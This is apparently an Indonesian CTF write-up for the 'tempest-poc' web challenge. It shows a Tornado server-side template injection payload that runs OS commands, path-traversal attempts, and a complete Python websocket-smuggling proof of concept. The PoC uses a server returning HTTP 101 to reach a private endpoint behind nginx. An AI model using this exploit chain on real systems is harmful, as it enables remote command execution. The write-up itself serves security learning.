

# tempest-poc
> `-`

## About the Challenge
Kita mendapatkan source code yang dimana website terbagi menjadi 2 bagian yaitu `frontend` dan `backend`. Di backend menggunakan TornadoServer sebagai backend dan pada frontend digunakan static HTML. Kemudian web server yang digunakan adalah nginx.

Jika kita cek backendnya, terdapat 4 endpoints:

```python
def make_app():
    return tornado.web.Application([
        (r"/api/public/ws/", WebSocketHandler),
        (r"/api/public/startscan", StartScanHandler),
        (r"/api/public/test", TestWebsiteHandler),
        (r"/api/private/report", GenerateReportHandler)
    ])

if __name__ == "__main__":
    app = make_app()
    app.listen(5000)
    tornado.ioloop.IOLoop.instance().start()
```

Berikut penjelasan tiap endpoints:
- `/api/public/ws/` digunakan untuk berinteraksi dengan websocket
- `/api/public/startscan` digunakan untuk melakukan "scanning" vulnerability
- `/api/public/test` digunakan untuk melakukan testing pada URL yang akan discan
- `/api/private/report` digunakan untuk meng"generate" report

Kurang lebih tampilan websitenya seperti ini


## How to Solve?
Jika dianalisis kembali source code websitenya, ada 1 fitur yang menarik perhatian saya, yaitu fitur untuk generate report:

```python
# Generate Report Endpoint (reads from the saved JSON report file)
class GenerateReportHandler(tornado.web.RequestHandler):
    def get(self):
        scan_id = self.get_argument("scan_id", None)
        report_name = self.get_argument("report_name", "")
        
        if not scan_id:
            self.set_status(400)
            self.write(json.dumps({"error": "Missing scan_id"}))
            return
        
        # File path for the report
        report_file = f"report/{scan_id}.json"
        
        # Check if the report file exists
        if not os.path.exists(report_file):
            self.set_status(404)
            self.write(json.dumps({"error": f"Report for scan_id {scan_id} not found"}))
            return
        
        # Load the report data from the JSON file
        with open(report_file, "r") as f:
            scan_data = json.load(f)
        
        # Read the HTML template from the file
        with open("report_template.html", "r") as template:
            report_template = template.read()

        report_template = report_template.replace("<REPORT_NAME>", report_name)

        # Dynamically render the report with scan data
        self.write(tornado.template.Template(report_template).generate(
            scan_id=scan_id,
            scan_data=scan_data
        ))
```

Fungsi ini vulnerable terhadap SSTI, hal tersebut terjadi karena user input yang tidak disanitasi di "passed" kedalam template sebelum dirender

```python
report_template = report_template.replace("<REPORT_NAME>", report_name)

# Dynamically render the report with scan data
self.write(tornado.template.Template(report_template).generate(
    scan_id=scan_id,
    scan_data=scan_data
))
```

SSTI akan terjadi disaat penyerang menginput `{{__import__('os').popen('id').read()}}` pada parameter `report_name`. Namun, pada kasus ini kita tidak bisa langsung mengakses endpoint `/api/private/report`. Mari kita cek config nginx

```
server {
    listen 80;

    location / {
        root /usr/share/nginx/html;
        index index.html;
    }

    # Proxy for WebSocket and HTTP requests
    location ~ ^/api/public {
        proxy_pass http://tempest-poc:5000;
        proxy_http_version 1.1;

        # WebSocket-specific headers
        proxy_set_header Upgrade $http_upgrade;

        # Conditionally set the Connection header
        set $connection_upgrade '';
        if ($http_upgrade) {
            set $connection_upgrade 'Upgrade';
        }
        proxy_set_header Connection $connection_upgrade;

        proxy_buffering off;
        proxy_cache off;

        # Optional: Increase timeouts to handle WebSocket connections
        proxy_read_timeout 3600;
        proxy_send_timeout 3600;
        proxy_connect_timeout 3600;

        # Additional headers to pass
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        proxy_set_header X-Forwarded-Proto $scheme;
    }
}
```

Website hanya akan mengakses backend jika url diawali dengan `/api/public`. Apa yang terjadi jika kita langsung mengakses endpoint `/api/private/report`?


Website tidak akan mengakses backend, melainkan akan mencari file bernama `/usr/share/nginx/html/api/private/report`. Yang berarti tantangan selanjutnya adalah bagaimana mengakses mengakses endpoint `/api/private/report` namun harus diawali dengan endpoint `/api/public`.

Pada awalnya ada beberapa cara yang saya coba untuk mengakses endpoint tersebut
- Dengan menggunakan path traversal seperti
```
/api/public/../private/report
/api/public/../../api/private/report
dst.
```
- Mencoba memanfaatkan `/api/public/test` dengan menginupt `http://tempest-poc:5000` pada form namun hal itu tidak mungkin karena terhalang fungsi `is_local_ip`

```python
def is_local_ip(ip, local_ips):
    """Check if the IP address is one of the local IP addresses of the server."""
    try:
        ip_obj = ipaddress.ip_address(ip)
        return ip_obj in local_ips or ip_obj.is_loopback
    except ValueError:
        return False
```

- Mencoba memanfaatkan HTTP request smuggling

Dan tentu saja cara-cara diatas tidak berhasil dilakukan sampai kemudian saya menganalisis konfigurasi nginx sekali lagi.

```
# Proxy for WebSocket and HTTP requests
location ~ ^/api/public {
    proxy_pass http://tempest-poc:5000;
    proxy_http_version 1.1;

    # WebSocket-specific headers
    proxy_set_header Upgrade $http_upgrade;

    # Conditionally set the Connection header
    set $connection_upgrade '';
    if ($http_upgrade) {
        set $connection_upgrade 'Upgrade';
    }
    proxy_set_header Connection $connection_upgrade;
```

Kenapa header `Upgrade` beserta `Connection` diset pada `/api/public*`? Sedangkan yang butuh header tersebut hanyalah endpoint `/api/public/ws/`. Setelah melakukan browsing mengenai request smuggling yang membutuhkan kedua header tersebut, saya menemukan vulnerability yang menarik yaitu `h2c smuggling` dan `websocket smuggling`

Yang pertama saya mencoba `h2c smuggling` dan hal tersebut gagal dikarenakan TornadoServer sendiri tidak support dengan [HTTP/2](https://github.com/tornadoweb/tornado/issues/1438). Kemudian saya beralih ke `websocket smuggling`.

`Websocket smuggling` sendiri memanfaatkan websocket tunnel untuk membypass limitasi dari web proxy (Nginx) dan penyerang bisa mengakses endpoint yang diinginkan

Berikut adalah alurnya:


1. Penyerang mengirimkan POST request ke endpoint `/api/public/test`, beserta header `Upgrade: websocket`. Nginx, yang berfungsi sebagai reverse proxy, mengira ini sebagai permintaan `Upgrade`, mengabaikan aspek lain dari request tersebut, dan langsung meneruskannya ke backend.

2. Di sisi backend, `/api/public/test` diexecute, tetapi saat berhubungan dengan website yang diinput penyerang (attacker.com) website tersebut mengirimkan HTTP response code 101. Ketika response ini diterima oleh backend dan diteruskan kembali ke Nginx, Nginx salah mengira bahwa koneksi Websocket sudah terbentuk karena hanya memeriksa dari HTTP response codenya saja.

Untuk lebih jelasnya bisa cek penjelasan milik [Mikhail Egorov](https://www.youtube.com/watch?v=gANzRo7UHt8) (Mulai pada menit ke 26:15)

Karena dari itu, saya membuat website menggunakan PHP dengan memanfaatkan fungsi `http_response_code` untuk mereturn HTTP response code 101

```php
<?php
	http_response_code(101);
?>
```

Dan beruntung disini saya memiliki domain bernama `daffa.info` karena endpoint `/api/public/test` tidak menerima IP sama sekali

```python
# domain check
if not netloc.replace(".", "").isdigit():
    # resolve the domain to ip
    try:
        ip = socket.gethostbyname(netloc)
    except socket.gaierror:
        return False
```

Setelah server sudah selesai saya setup, kemudian saya menggunakan exploit websocket smuggling dari repository milik [Mikhail Egorov](https://github.com/0ang3el/websocket-smuggle). Berikut adalah final proof of conceptnya:

```python
import socket

req1 = b'''POST /api/public/test HTTP/1.1
Host: 127.0.0.1:80
Connection: Upgrade
Upgrade: websocket
Content-Type: application/json
Content-Length: 32

{"url":"http://daffa.info:8888"}'''


req2 = b'''GET /api/private/report?scan_id=8b46ca2d-57b7-432b-948b-6dfe69864414&report_name={{__import__('os').popen('id').read()}} HTTP/1.1
Host: tempest-poc:5000

'''

def main(netloc):
    host, port = netloc.split(':')

    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((host, int(port)))

    # Send the first request
    sock.sendall(req1)
    sock.recv(4096)

    # Send the second request and receive data
    sock.sendall(req2)
    data = sock.recv(4096)
    data = data.decode(errors='ignore')

    # Print the received data
    print(data)

    # Shutdown and close the socket
    sock.shutdown(socket.SHUT_RDWR)
    sock.close()

if __name__ == "__main__":
    main('127.0.0.1:80')
```

Notes: Sebelum jalankan code diatas, jalankan "scanning" vulnerability terlebih dahulu untuk mendapatkan `scan_id`.

Berikut adalah responsenya



References:
- https://ajinabraham.com/blog/server-side-template-injection-in-tornado
- https://book.hacktricks.xyz/pentesting-web/h2c-smuggling
- https://www.youtube.com/watch?v=gANzRo7UHt8
- https://github.com/0ang3el/websocket-smuggle